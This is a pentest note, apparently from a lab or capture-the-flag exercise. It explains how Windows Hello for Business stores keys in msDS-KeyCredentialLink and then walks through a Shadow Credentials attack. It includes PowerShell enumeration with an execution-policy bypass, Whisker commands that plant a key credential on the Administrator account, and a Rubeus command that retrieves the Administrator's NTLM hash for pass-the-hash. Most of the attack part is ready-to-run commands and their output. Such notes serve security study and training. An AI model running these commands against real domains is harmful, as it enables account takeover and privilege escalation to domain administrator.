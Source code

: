 Microsoft introduced **Windows Hello for Business (WHfB)** as a modern and secure way to replace conventional password-based authentication. Instead of relying on traditional passwords, WHfB utilises cryptographic keys for user verification. Users on the Active Directory domain can access the AD using a *PIN or biometrics connected to a pair of cryptographic keys*: public and private.

Here's the procedure to store a new pair of certificates with WHfB:
- **Trusted Platform Module (TPM) public-private key pair generation**: The TPM creates a public-private key pair for the user's account when they enrol. It's crucial to remember that the private key never leaves the TPM and is never disclosed.
- **Client certificate request**: The client initiates a certificate request to receive a trustworthy certificate. The organisation's certificate issuing authority (CA) receives this request and provides a valid certificate.
- **Key storage**: The user account's `msDS-KeyCredentialLink` attribute will be set.
![[68d1798e28e2c4b924d02f8303b40ab3.svg]]

Authentication Process:
- **Authorisation**: The Domain Controller decrypts the client's pre-authentication data using the raw public key stored in the `msDS-KeyCredentialLink` attribute of the user's account.
- **Certificate generation**: The certificate is created for the user by the Domain Controller and can be sent back to the client.
- **Authentication**: After that, the client can log in to the Active Directory domain using the certificate.


---
# Enumeration
Enumerate for users which have the `GenericWrite` permission!
```powershell
# Returns all users priviliges
Find-InterestingDomainAcl -ResolveGuids
```


```powershell
PS C:\Users\hr\Desktop> powershell -ep bypass
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Users\hr\Desktop> . .\PowerView.ps1
PS C:\Users\hr\Desktop> Find-InterestingDomainAcl -ResolveGuids | Where-Object { $_.IdentityReferenceName -eq "hr" } | Select-Object IdentityReferenceName, ObjectDN, ActiveDirectoryRights

# CN=Administrator is the username
IdentityReferenceName ObjectDN                                                    ActiveDirectoryRights
--------------------- --------                                                    ---------------------
hr                    CN=Administrator,CN=Users,DC=AOC,DC=local ListChildren, ReadProperty, GenericWrite
```

---
# Exploitation
Use `Whisker` tool!
```powershell
PS C:\Users\hr\Desktop> .\Whisker.exe add /target:Administrator
[*] No path was provided. The certificate will be printed as a Base64 blob
[*] No pass was provided. The certificate will be stored with the password qfyNlIfCjVqzwh1e
[*] Searching for the target account
[*] Target user found: CN=Administrator,CN=Users,DC=AOC,DC=local
[*] Generating certificate
[*] Certificate generated
[*] Generating KeyCredential
[*] KeyCredential generated with DeviceID ae6efd6c-27c6-4217-9675-177048179106
[*] Updating the msDS-KeyCredentialLink attribute of the target object
[+] Updated the msDS-KeyCredentialLink attribute of the target object
[*] You can now run Rubeus with the following syntax:
Rubeus.exe asktgt /user:Administrator /certificate:MIIJwAIBAzCCCXwGCSqGSIb3DQEHAaCCCW0EgglpMIIJZTCCBhYGCSqGSIb3DQEHAaCCBgcEggYDMIIF/zCCBfsGCyqGSIb[snip] /password:"qfyNlIfCjVqzwh1e" /domain:AOC.local /dc:southpole.AOC.local /getcredentials /show
```

The tool will conveniently provide the *certificate necessary to authenticate the impersonation of the vulnerable user* with a command ready to be launched using `Rubeus`.

```powershell
# This gives the NTLM Hash which can be used for Pass-The-Hash Attack
PS C:\Users\hr\Desktop> .\Rubeus.exe asktgt /user:Administrator /certificate:MIIJwAIBAzCCCXwGCSqGSIb3DQEH[snip] /password:"qfyNlIfCjVqzwh1e" /domain:AOC.local /dc:southpole.AOC.local /getcredentials /show

..
..
..
NTLM              : DDD22F37A3037852AFGE70FAB93E0CC71 
```

---
For More info, [click here](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/acl-persistence-abuse/shadow-credentials)
